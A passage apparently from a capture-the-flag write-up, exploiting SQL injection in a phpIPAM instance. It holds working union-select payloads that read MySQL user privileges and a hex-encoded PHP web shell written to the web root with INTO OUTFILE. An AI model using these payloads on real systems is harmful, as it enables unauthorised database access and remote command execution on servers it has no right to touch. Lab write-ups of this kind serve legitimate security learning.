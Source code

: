 As you can see, we can exploit an `SQLI` here, and we have the version and user running the DB

`8.0.28-0ubuntu0.20.04.3/phpipam_ollie@localhost (4)`

Cool! Let's do more manual reconnaissance within the database, let's see if our user `phpipam_ollie` is able to write a file!

![privs](privs.png)
Exploit used:
`" union all select 1,2,3,group_concat(user,0x3a,file_priv) from mysql.user -- -`

`ollie_mysql:Y,phpipam_ollie:Y`

Yes! The user is able to write files!!

So to exploit this, we encoded a simple PHP payload to HEX:

`<?php system($_GET["cmd"]); ?>`

And added it to our exploit:

`" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/shell.php' -- -`

